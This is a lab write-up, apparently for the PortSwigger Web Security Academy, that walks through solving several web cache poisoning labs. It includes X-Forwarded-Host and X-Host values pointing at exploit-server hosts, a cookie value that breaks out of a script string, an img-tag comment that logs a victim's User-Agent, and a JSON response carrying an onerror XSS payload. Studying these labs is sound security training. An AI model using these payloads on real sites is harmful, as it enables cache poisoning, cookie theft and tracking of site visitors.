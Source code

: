 # Web cache poisoning

- https://portswigger.net/web-security/web-cache-poisoning
- https://portswigger.net/research/practical-web-cache-poisoning
- https://portswigger.net/research/web-cache-entanglement
- https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943
- https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws
- https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws

We are looking for unkeyed values (headers, params), that are being reflected on the response page.

## Web cache poisoning with an unkeyed header

We can find out that the cache is probably being used by headers like `X-Cache: hit` or `X-Cache: miss`. In order to successfully test for cache poisoning we can use a cache buster (such as a unique parameter), that will limit the response to us only.

Using Param Miner we can find out, that the server supports `X-Forwarded-Host` header and once provided its value is being reflected in the address of the tracking js script that should be loaded. `Guess headers` with added options like `poison only` and `cache buster` will try to find and report only valueable output.

Now we can create a `/resources/js/tracking.js` file at our exploit server containing `alert(document.cookie)` script, and poison a cache to the home poge at `/` with `X-Forwarded-Host` header pointing to `exploit-0af1000703699b68801bdebc0129001c.exploit-server.net`, making every next request maching cache keys receive a page loading our malicious script instead of the tracking one.

## Web cache poisoning with an unkeyed cookie

The `fehost` cookie is being set upon hitting the cache for the first time and its value is then reflected on the page in a script tag. 

Upon adding custom cache buster (`?cb=123` query param) we can notice that changing the cookie value to `XXX`, performing a request that misses cache, and the performing other request with cookie set to `YYY` responds with `XXX` being reflected on the page, which proves the cookie is unkeyed value.

Chaning the cookie value to `prod-cache-01"};alert(1);x={"a":"b` with custom cache buster and then requesting the same page with normal cookie discovers that the reflected value is not being sanitizd and we are able to execute arbitrary code and poison a cache with it, which done again withour cache buster solves the lab.

## Web cache poisoning with multiple headers

Using Param Miner we are able to establish, that `x-forwarded-scheme` and `x-forwarded-host` headers are supported.

By adding `X-Forwarded-Scheme: http` to the request we notice 302 responde with redirection to the original host. Upon removing this header and leaving the same cache buster we still receive the redirection request.

When we add to that `X-Forwarded-Host: XXXX` header, we can notice redirection location now points to `XXXX` and after removing both headers, we see that the response was cached.

By adding the two below headers to the `GET /` request we are able to redirect anyone visiting the home to our server containing a malicious script.

```
X-Forwarded-Host: exploit-0aea00e203731cf781f556c601a60079.exploit-server.net/exploit
X-Forwarded-Scheme: http
```

Since this does not have as much of an impact, we have to investigate further. We can notice that a request for a tracking js script `GET /resources/js/tracking.js` is also cacheable, and applying the same headers also causes it to poison the cache. Adding the below two headers will cache the response for requesting the tracking script, that will redirect to our domain.

```
X-Forwarded-Host: exploit-0aea00e203731cf781f556c601a60079.exploit-server.net
X-Forwarded-Scheme: http
```

Hosting our custom js file containing `alert(document.cookie)` along side with poisoning the cache of the previous request makes everyone accessing the home page trigger an XSS and solve the lab.

## Targeted web cache poisoning using an unknown header

Using Param Miner we are able to discover that `x-host` header is supported.

By testing this param we can notice that its value is being reflected in the path to tracking js script and that the param is unkeyed.

By performing `GET /post?postId=1` request with `X-Host: exploit-0a170084036989dd8247205801bb009d.exploit-server.net` header we are able to poison a cache, which will then make a every request to js tracking script to our server, on which we will host `alert(document.cookie)` content. Everyone visitng the post page will trigger an XSS performing alert function call.

Now in order to target the specific user, we need to get their `User-Agent`. This can be done by creating a new comment containing a link to our server. After visitng this post the `user-agent` will be logged. For this we create a new comment with a body:

```
<img src="https://exploit-0a170084036989dd8247205801bb009d.exploit-server.net/img.png" />
```

Now reading fromthe logs we notice the `user-agent` of the victim `Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36`.

Now we again perform poisoning the cache for the `/post?postId=1`, but this time changing the request `user-agent` to the victims one and adding `Vary: User-Agent`. By this we will add to cache key particular `User-Agent`, limiting the cache poisoning only to that particular one, which after creating a new comment solves the lab.

## Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

By inspecting the loaded content we can notice `geolocate.js` script, which fetches the content from provided as param url and passes it without sanitization into `innerHtml` sink.

The function `initGeoLocate` performing this action is invoked in the main page and uses the param `data.host`, which is defined in other part of the file in different `script` tag.

Param Miner was able to find `x-forwarded-host` header and we can confirm that it is being reflected in the `data.host` param, which, if poisoned, could potentially trigger an XXS by pointing it to our server, which will serve a payload passed to `innerHtml` sink.

Using `x-forwarded-host` header we are able to poison the cache, which for further requests not containing the header still respond with reflected malicious host value. `session` cookie and `User-Agent` header seem to be unkeyed values.

Now we can poison home page by performing `GET /` request with `X-Forwarded-Host: exploit-0ae0008c04b99d6f80a99890016d00b3.exploit-server.net` header. The Exploit server neet to be configured to serve proper file and respond with proper headers.

File should be available at path `/resources/json/geolocate.json`. The headers should support CORS and have proper for json content type set:

```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Access-Control-Allow-Origin: https://0ab8005b04999d5280dc99e3003f0003.web-security-academy.net
```

The content of the response should be a json, which `country` param will be unsafetly passed to `innerHtml` sink:

```
{
    "country": "United Kingdom <img src=X onerror=alert(document.cookie) />"
}
```

Poisoning the cache this way and serving this file solves the lab.
